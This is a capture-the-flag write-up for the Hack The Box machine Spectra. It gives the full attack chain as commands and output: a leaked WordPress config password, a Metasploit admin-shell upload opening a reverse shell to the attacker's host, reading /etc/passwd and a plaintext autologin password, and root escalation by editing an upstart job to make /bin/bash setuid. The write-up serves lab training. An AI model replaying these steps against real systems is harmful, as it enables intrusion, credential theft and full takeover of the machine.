






What we can learn from this machine
* Enumeration
* Wordpress
* MySQL
* Metasploit

Let's start with a nmap scan for look what we got in this machine.
```
# Nmap 7.91 scan initiated Wed Jun  9 07:17:42 2021 as: nmap -sC -sV -A -oN scans/nmap-output 10.10.10.229
Nmap scan report for 10.10.10.229
Host is up (0.15s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE          VERSION
22/tcp   open  ssh              OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey: 
|_  4096 52:47:de:5c:37:4f:29:0e:8e:1d:88:6e:f9:23:4d:5a (RSA)
80/tcp   open  http             nginx 1.17.4
|_http-server-header: nginx/1.17.4
|_http-title: Site doesn't have a title (text/html).
3306/tcp open  mysql            MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
8081/tcp open  blackice-icecap?
| fingerprint-strings: 
|   FourOhFourRequest, GetRequest: 
|     HTTP/1.1 200 OK
|     Content-Type: text/plain
|     Date: Wed, 09 Jun 2021 02:00:12 GMT
|     Connection: close
|     Hello World
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Content-Type: text/plain
|     Date: Wed, 09 Jun 2021 02:00:18 GMT
|     Connection: close
|_    Hello World
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8081-TCP:V=7.91%I=7%D=6/9%Time=60C01DDB%P=x86_64-pc-linux-gnu%r(Get
SF:Request,71,"HTTP/1\.1\x20200\x20OK\r\nContent-Type:\x20text/plain\r\nDa
SF:te:\x20Wed,\x2009\x20Jun\x202021\x2002:00:12\x20GMT\r\nConnection:\x20c
SF:lose\r\n\r\nHello\x20World\n")%r(FourOhFourRequest,71,"HTTP/1\.1\x20200
SF:\x20OK\r\nContent-Type:\x20text/plain\r\nDate:\x20Wed,\x2009\x20Jun\x20
SF:2021\x2002:00:12\x20GMT\r\nConnection:\x20close\r\n\r\nHello\x20World\n
SF:")%r(HTTPOptions,71,"HTTP/1\.1\x20200\x20OK\r\nContent-Type:\x20text/pl
SF:ain\r\nDate:\x20Wed,\x2009\x20Jun\x202021\x2002:00:18\x20GMT\r\nConnect
SF:ion:\x20close\r\n\r\nHello\x20World\n");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun  9 07:18:53 2021 -- 1 IP address (1 host up) scanned in 71.40 seconds
```
We got port 22 ssh, 80 http, 3306 mysql open. which means there is a web application involved. Let's go into the our website.



We can see that there are two links.

**10.10.10.229/main** consists some information and there is a login panel. We can assume that there is a user called *administrator* by looking at the following post.



After I see it is **wordpress** I ran wpscan but I haven't found anything interesting.

The other link; **10.10.10.229/testing** consists of many files which we can look into. After some time, I found an interesting file: **wp-config.php.save** which consists of usernames and passwords. Admin may have forgotten to remove this file.



Let's get that file into our system (use wget or curl). After some time I found this bad boy in that file. 

```bash
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'dev' );

/** MySQL database username */
define( 'DB_USER', 'devtest' );

/** MySQL database password */
define( 'DB_PASSWORD', 'devteam01' );
```
We got our credentials. 
* Username : devtest
* Password : devteam01



**devtest** username not working. However **administrator** working. Now you will be able to get into the *Dashboard*. 

After we got into the *Wordpress Dashboard* You can see this msg. 



We’re logged in as **administrator**. At this point we can either use Meterpreter to get a reverse shell, or we can change one of the template files from within the WordPress admin site and put our own reverse shell in it.

Here I'm using meterpreter because it will make our work easy.

```bash
┌─[✗]─[visith@parrot]─[~/CTF/htb/spectra]
└──╼ $msfconsole
+ -- --=[ metasploit v6.0.44-dev                          ]
+ -- --=[ 2131 exploits - 1139 auxiliary - 363 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 8 evasion                                       ]

msf6 > search wp_admin_shell

Matching Modules
================

   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/unix/webapp/wp_admin_shell_upload  2015-02-21       excellent  Yes    WordPress Admin Shell Upload


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/webapp/wp_admin_shell_upload

msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/wp_admin_shell_upload) > 
```
let’s set all the options.
```bash
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set LHOST 10.10.15.0
LHOST => 10.10.15.0
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set LPORT 4444
LPORT => 4444
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set RHOST 10.10.10.229
RHOST => 10.10.10.229
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username administrator
username => administrator
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password devteam01
password => devteam01
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set targeturi /main
targeturi => /main
msf6 exploit(unix/webapp/wp_admin_shell_upload) > run

[*] Started reverse TCP handler on 10.10.15.0:4444 
[*] Authenticating with WordPress using administrator:devteam01...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /main/wp-content/plugins/RnGLAQgcmL/exUrTaKSFb.php...
[*] Sending stage (39282 bytes) to 10.10.10.229
[+] Deleted exUrTaKSFb.php
[+] Deleted RnGLAQgcmL.php
[+] Deleted ../RnGLAQgcmL
[*] Meterpreter session 1 opened (10.10.15.0:4444 -> 10.10.10.229:39316) at 2021-06-09 07:46:02 +0530

```
So, we got a reverse shell of the web application “nginx”. Then get rid of the meterpreter shell by executing “shell” command. However still we are not a user of this system. When enumerating, I came across that there is a user called **katie** apart from **root** and **nginx**. I saw it when viewing the "/etc/passwd" file.

```bash
meterpreter > shell
Process 34320 created.
Channel 0 created.
sh: 0: getcwd() failed: No such file or directory
sh: 0: getcwd() failed: No such file or directory
/usr/bin/script -qc /bin/bash /dev/null
sh: 0: getcwd() failed: No such file or directory
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
sh_makepath: error retrieving current directory: getcwd: cannot access parent directories: Success
bash-4.3$ whoami
whoami
nginx
bash-4.3$ cat /etc/passwd
nginx:x:20155:20156::/home/nginx:/bin/bash
katie:x:20156:20157::/home/katie:/bin/bash
```
When enumerating furthermore, I came across a file called **autologin.conf.orig** which is located at “/opt” directory.

```bash
bash-4.3$ cd /opt
cd /opt
bash-4.3$ ls -la
ls -la
total 44
drwxr-xr-x 10 root root 4096 Feb  3 16:42 .
drwxr-xr-x 22 root root 4096 Feb  2 14:52 ..
drwxr-xr-x  2 root root 4096 Jun 28  2020 VirtualBox
-rw-r--r--  1 root root  978 Feb  3 16:02 autologin.conf.orig
drwxr-xr-x  2 root root 4096 Jan 15 15:53 broadcom
drwxr-xr-x  2 root root 4096 Jan 15 15:54 displaylink
drwxr-xr-x  2 root root 4096 Jan 15 15:53 eeti
drwxr-xr-x  5 root root 4096 Jan 15 15:55 google
drwxr-xr-x  6 root root 4096 Feb  2 15:15 neverware
drwxr-xr-x  5 root root 4096 Jan 15 15:54 tpm1
drwxr-xr-x  5 root root 4096 Jan 15 15:54 tpm2
bash-4.3$ cat autologin.conf.orig
cat autologin.conf.orig
# Copyright 2016 The Chromium OS Authors. All rights reserved.
# Use of this source code is governed by a BSD-style license that can be
# found in the LICENSE file.
description   "Automatic login at boot"
author        "chromium-os-dev@chromium.org"
# After boot-complete starts, the login prompt is visible and is accepting
# input.
start on started boot-complete
script
  passwd=
  # Read password from file. The file may optionally end with a newline.
  for dir in /mnt/stateful_partition/etc/autologin /etc/autologin; do
    if [ -e "${dir}/passwd" ]; then
      passwd="$(cat "${dir}/passwd")"
      break
    fi
  done
  if [ -z "${passwd}" ]; then
    exit 0
  fi
  # Inject keys into the login prompt.
  #
  # For this to work, you must have already created an account on the device.
  # Otherwise, no login prompt appears at boot and the injected keys do the
  # wrong thing.
  /usr/local/sbin/inject-keys.py -s "${passwd}" -k enter
end scriptbash-4.3$ 
```
When reading the above file, we can find out there is a password file at **/etc/autologin**.

```bash
bash-4.3$ cd /etc/autologin
cd /etc/autologin
bash-4.3$ ls
ls
passwd
bash-4.3$ ls -la
ls -la
total 12
drwxr-xr-x  2 root root 4096 Feb  3 16:43 .
drwxr-xr-x 63 root root 4096 Feb 11 10:24 ..
-rw-r--r--  1 root root   19 Feb  3 16:43 passwd
bash-4.3$ cat passwd
cat passwd
SummerHereWeCo***** 
```
Now we have the password of user “katie”, we can SSH to katie. Then we can get the user flag.

```bash
┌─[visith@parrot]─[~/CTF/htb/spectra]
└──╼ $ssh katie@10.10.10.229
The authenticity of host '10.10.10.229 (10.10.10.229)' can't be established.
RSA key fingerprint is SHA256:lr0h4CP6ugF2C5Yb0HuPxti8gsG+3UY5/wKjhnjGzLs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.229' (RSA) to the list of known hosts.
Password: 
-bash-4.3$ whoami
katie
-bash-4.3$ ls
log  user.txt
-bash-4.3$ cat user.txt
e89d27*******************
```
After run any of scripts like linpeas.sh . I use **sudo -l** to see what we got here.

```bash
bash-4.3$ sudo -l
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```
we can come across that this user can execute **/sbin/initctl** as root. I just Googled about it and came across its functionality.

Here is the Link to that documentation I read on google : https://linux.die.net/man/8/initctl

we can use initctl to control starting and stopping processes as system. Sounds like a nice simple way to get a root shell. First let's see what’s **/etc/init**.
```
bash-4.3$ /etc/init $ ls -l
total 752
<SNIP>
-rw-rw---- 1 root developers  478 Jun 29  2020 test.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test1.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test10.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test2.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test3.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test4.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test5.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test6.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test7.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test8.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test9.conf
<SNIP>
```
However these called test owned by the developer group look interesting. Let’s check out the first one

```bash
description "Test node.js server"
author      "katie"
start on filesystem or runlevel [2345]
stop on shutdown
script
    export HOME="/srv"
    echo $$ > /var/run/nodetest.pid
    exec /usr/local/share/nodebrew/node/v8.9.4/bin/node /srv/nodetest.js
end script
pre-start script
    echo "[`date`] Node Test Starting" >> /var/log/nodetest.log
end script
pre-stop script
    rm /var/run/nodetest.pid
    echo
```
We can replace the contents of this with our own code, let’s get it to change permissions on **/bin/bash** so we can run it with root permissions as katie. Here is the edit file of mine.

```bash
description "Test node.js server"
author      "katie"
start on filesystem or runlevel [2345]
stop on shutdown

script
chmod +s /bin/bash
end script
```
After we start the service again and run **bash -p** you can get the root.

```bash
-bash-4.3$  sudo /sbin/initctl start test
test start/running, process 47999
-bash-4.3$ bash -p
bash-4.3# whoami
root
```
Thx for reading !!


